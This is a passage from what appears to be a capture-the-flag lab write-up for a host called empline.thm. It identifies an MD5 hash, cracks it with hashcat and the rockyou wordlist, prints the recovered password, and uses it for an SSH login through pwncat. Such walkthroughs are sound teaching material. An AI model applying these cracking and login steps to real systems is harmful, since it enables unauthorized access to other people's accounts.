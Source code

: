 ```
⛩\> hash-identifier 86d0dfda99dbebc424eb4407947356ac
   #########################################################################
   #     __  __                     __           ______    _____           #
   #    /\ \/\ \                   /\ \         /\__  _\  /\  _ `\         #
   #    \ \ \_\ \     __      ____ \ \ \___     \/_/\ \/  \ \ \/\ \        #
   #     \ \  _  \  /'__`\   / ,__\ \ \  _ `\      \ \ \   \ \ \ \ \       #
   #      \ \ \ \ \/\ \_\ \_/\__, `\ \ \ \ \ \      \_\ \__ \ \ \_\ \      #
   #       \ \_\ \_\ \___ \_\/\____/  \ \_\ \_\     /\_____\ \ \____/      #
   #        \/_/\/_/\/__/\/_/\/___/    \/_/\/_/     \/_____/  \/___/  v1.2 #
   #                                                             By Zion3R #
   #                                                    www.Blackploit.com #
   #                                                   Root@Blackploit.com #
   #########################################################################
--------------------------------------------------

Possible Hashs:
[+] MD5
[+] Domain Cached Credentials - MD4(MD4(($pass)).(strtolower($username)))
```

It’s MD5 hash.

```
⛩\> hashcat 86d0dfda99dbebc424eb4407947356ac -m 0 /usr/share/wordlists/rockyou.txt

-----------SNIP------------

86d0dfda99dbebc424eb4407947356ac:pretonnevippasempre

Session..........: hashcat
Status...........: Cracked
Hash.Name........: MD5
Hash.Target......: 86d0dfda99dbebc424eb4407947356ac
Time.Started.....: Mon Sep 20 11:20:11 2021 (1 sec)
Time.Estimated...: Mon Sep 20 11:20:12 2021 (0 secs)
Guess.Base.......: File (/usr/share/wordlists/rockyou.txt)
Guess.Queue......: 1/1 (100.00%)
Speed.#1.........:  4653.3 kH/s (0.21ms) @ Accel:1024 Loops:1 Thr:1 Vec:8
Recovered........: 1/1 (100.00%) Digests
Progress.........: 4538368/14344385 (31.64%)
Rejected.........: 0/4538368 (0.00%)
Restore.Point....: 4536320/14344385 (31.62%)
Restore.Sub.#1...: Salt:0 Amplifier:0-1 Iteration:0-1
Candidates.#1....: pretty02-9694871 -> prepre123

Started: Mon Sep 20 11:20:10 2021
Stopped: Mon Sep 20 11:20:14 2021
```

We go the password, now let’s login with SSH.

```
⛩\> pwncat ssh://george@empline.thm
[11:27:43] Welcome to pwncat 🐈!                                                                                                                __main__.py:143
Password: *******************
[11:28:01] empline.thm:22: registered new host w/ db                                                                                             manager.py:502
(local) pwncat$

(remote) george@empline:/home/george$ id
uid=1002(george) gid=1002(george) groups=1002(george)
```
